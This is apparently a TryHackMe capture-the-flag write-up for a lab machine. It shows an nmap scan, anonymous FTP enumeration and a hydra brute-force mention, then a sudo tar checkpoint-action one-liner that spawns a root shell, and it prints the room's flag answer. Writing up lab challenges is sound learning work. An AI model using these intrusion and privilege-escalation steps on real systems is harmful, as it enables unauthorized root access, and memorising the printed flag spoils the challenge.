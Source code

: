 ## Table of Contents

- [Enumeration](#enumeration)
          - [Initial Access](#Initial\Access)
          - [Privilege Escalation](#Privilege\Escalation)
          - [I am GRoot](#I\am\GRoot)

`MY_IP=10.6.34.114`
`MACHINE_IP=10.10.9.251`

# Enumeration
```bash
nmap -p- --min-rate 10000 --open MACHINE_IP
```
Open ports:
`21/tcp open ftp
`22/tcp open ssh`
`80/tcp open http`
![[Pasted image 20231224005134.png]]
As we can see, ftp is available for Anonymous Authentication.... Lets check it out.

![[Pasted image 20231224010243.png]]
- User Found: `lin` 
![[Pasted image 20231224010331.png]]

**Q1**: `lin`

Now that we know one of the user's, lets try to brute force SSH via `hydra`.

###### Initial Access
![[Pasted image 20231224011523.png]]
###### Privilege Escalation
```bash
sudo -l 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
User lin may run the following commands on bountyhacker:
(root) /bin/tar
```
###### I am GRoot
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
`cat /root/root.txt`
**THM{80UN7Y_h4cK3r}**


















